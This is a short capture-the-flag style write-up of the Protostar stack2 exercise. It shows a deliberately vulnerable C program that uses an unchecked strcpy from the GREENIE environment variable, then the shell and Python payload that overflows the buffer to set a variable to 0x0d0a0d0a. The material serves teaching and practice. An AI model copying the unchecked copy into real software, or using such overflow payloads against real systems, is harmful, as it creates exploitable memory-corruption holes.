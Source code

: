 ```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

`variable` is copied to `buffer`. If `variable` is long enough, then `modified` can be overflowed through copying.

```python
>>> from pwn import *
>>> p32(0x0d0a0d0a)
b'\n\r\n\r'
```

We have to use invisible characters!

Now using Python2 to make our environment variable `GREENIE`,

```shell
user@protostar:~$ GREENIE=$(python -c "print(b'a'*64)+b'\n\r\n\r'")
user@protostar:~$ export GREENIE
user@protostar:~$ ./stack2
you have correctly modified the variable
```

